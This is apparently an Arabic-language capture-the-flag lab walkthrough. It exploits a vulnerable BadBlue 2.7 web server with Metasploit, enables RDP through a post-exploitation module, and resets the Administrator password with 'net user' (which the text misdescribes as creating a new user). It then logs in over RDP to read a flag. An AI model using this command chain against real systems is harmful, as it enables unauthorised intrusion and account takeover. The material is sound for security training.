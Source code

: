 طبعا هنا راح نشوف طريقة في حال كان معنا اتصال ونبي نفعل الـ RDP protocol ف هذي احدى الطرق  

اول شي راح نفحص التارقت بالـ nmap  
```bash
nmap -sV -sC 10.0.0.68  
```  

نشوف الان ان بورت 80 شغال وعليه خدمة BadBlue 2.7 وحنا نعرف انه مصاب راح نستغله  
```bash
msfconsole  
use exploit/windows/http/badblue_passthru  
set RHOSTS 10.0.0.68  
exploit  
```  

الان جانا الاتصال والوضع تمام  
الان بنحاول نفعل الـ RDP عن طريق موديول في الـ msfconsole  
طبعا نخلي السيشن الاولى في الخلفيه عن طريق
```bash
CTRL+Z or background or bg
```  

والان نجرب نفعل الـ RDP

```bash
use post/windows/manage/enable_rdp  
set SESSION 1  
exploit  
```  

نلاحظ انه قالنا انه POST module execution completed وهذا يعني انه فعل لنا الـ RDP  

خلونا نجرب نفحص 
```bash
nmap -sV -sC 10.0.0.68  
```  

ونشوف انه فعلا شغال  

طيب الان كيف راح نتصل بالـ RDP وحنا مامعنا username & password ?  
عندنا طرق كثير مثلا بروت فورس او hashdump وتسوي كراك او تسوي يوزر جديد  
وبحالتنا الافضل والاسرع انك تسوي يوزر جديد  

نفتح اول سيشن اخذناها ونسوي يوزر جديد عن طريق هذا الامر  
```bash
sessions -i 1 [to interact with session id 1]  
shell [to open shell on the target]  
net user administrator hacker_123321 [to create new user on windows system]  
```  

والان نشوف انه فعلا سوا لنااليوزر حقنا خلونا نجرب نتصل بالتارقت عن طريق RDP  
```bash
xfreerdp /u:administrator /p:hacker_123321 /v:10.0.0.68  
Y [when you get (Do you trust to above certificate?(Y/T/N)) type Y to trusted the certificate]  
```  


طبعا مطلوب مننا نقرا الفلاق راح نحصل الملف الي فيه الفلاق في سطح المكتب اسمه flag افتحه وبتحصل الفلاق  

